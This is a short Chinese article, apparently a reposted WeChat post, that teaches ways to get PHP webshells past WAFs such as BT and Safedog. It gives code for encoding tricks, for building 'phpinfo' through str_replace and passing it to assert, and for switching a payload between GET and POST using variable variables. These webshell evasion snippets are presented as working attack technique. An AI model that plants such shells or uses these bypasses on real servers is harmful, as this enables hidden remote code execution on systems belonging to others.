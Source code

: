 ①加密解密绕过

可逆 base64，url 编码 不可逆 md5 注意：不能在可变变量中传入 base64\_decode() 函数因为，会被 BT 拦截，所以一般该方 式行不通就会换成下面的方式。

②关键字绕过

如 phpinfo();

可以替换成如下写法： $y=str\_replace('x','','pxhpxinxfo()');assert($y);

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQ5ibuv1N4JeRibLfEaqXUFoNgwbcxpmLFtAEZXu7jLaMUHkc2J9Ujm7gA%2F640%3Fwx_fmt%3Dpng)

③提交方法

```
利用变量覆盖加上请求方法达到该效果，如本来是 POST 方法，修改后变成 GET 方法从而达 到绕过 WAF $a=$\_GET\['x'\];$$a=$\_GET\['y'\];$b($\_POST\['z'\]); 下面的尝试未开启 BT，只有 safedog 的测试
```

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQKMT63Qn3pTJRmictibibiamnfrdXJQDftXuiczwJA5L17w5GThtCsGPXcGg%2F640%3Fwx_fmt%3Dpng)

过滤了 assert 关键字时,利用下面方法达到绕过 原理:就是拼接字符串

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicTEciaVqLaRQwzBnsw9MqUQMGicduZUYobyPB3K7sSGNPu6kPhHPbicficf9eUUtm5L0wXROqwMM8FIw%2F640%3Fwx_fmt%3Dpng)

[查看原网页: mp.weixin.qq.com](https://mp.weixin.qq.com/s/_IdtDUxPHOVxLoQiGkoaAw)